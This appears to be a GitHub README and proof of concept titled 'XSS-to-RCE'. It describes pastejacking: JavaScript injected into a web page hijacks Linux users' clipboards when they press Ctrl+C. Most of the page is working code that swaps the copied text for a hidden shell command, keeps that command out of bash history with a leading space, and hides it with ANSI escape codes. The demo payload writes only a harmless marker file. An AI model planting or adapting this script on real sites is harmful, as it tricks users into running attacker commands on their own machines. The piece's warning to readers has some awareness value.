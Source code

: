 # XSS-to-RCE

The usecase is for websites that encourage linux-users to copy commands straight into the terminal.

If that website contains a XSS vulnerability, or an attacker is able to execute javascript on the page in some other way, the attacker is able to hijack the users clipboard and inject a terminal command that is quite stealthy.

The terminal command that is tricked upon the victim will not be recorded in the terminal history, and it will remove the malicious command from the terminal, by using some ANSI-tricks.

The copied command will also contain the legitimate text that the victim tried to copy, as not to rise suspicion.

So, lesson learned: never copy-paste into your terminal. Or don't allow javascript in your browser.

```javascript

document.addEventListener('keypress', (event) => {

  // Grab the keys of the user
	var key = event.which || event.keyCode; 
	var ctrl = event.ctrlKey ? event.ctrlKey : ((key === 17) ? true : false); 

	// Only hijack the victims copy-buffer if it is a linux-user
	var os = navigator.platform
	var testIfLinux = os.indexOf("Linux")


	if ((ctrl) && (key == 99) && testIfLinux == !-1){	
		// Get string that the user has highlighted
		var userstring = window.getSelection().toString()
		attack(userstring)
	}

});

function attack(userstring){

	// We need to create a new textarea (or some other element where we can write out text)
	var textarea = document.createElement('textarea');
	// Next we set the value of the text-area to the command we wish to execute
	// Include the initial space in the command so that the command won't be saved in bash history.
	// The ansi-code \033[F is equal to "Go up one line"
	// The ansi-code \033[2K is equal to "Clear this line"
	textarea.value = ' echo dödshackad > /tmp/hackad;printf "\\033[2K";\r\n' + userstring
	// The textarea needs to be appended to the DOM, in order to copy the text from it into the copy-buffer
	document.body.appendChild(textarea);
	// "Highlight" and select the text
	textarea.focus()
	textarea.select();
	document.execCommand("copy");
	document.body.removeChild(textarea);
}
```
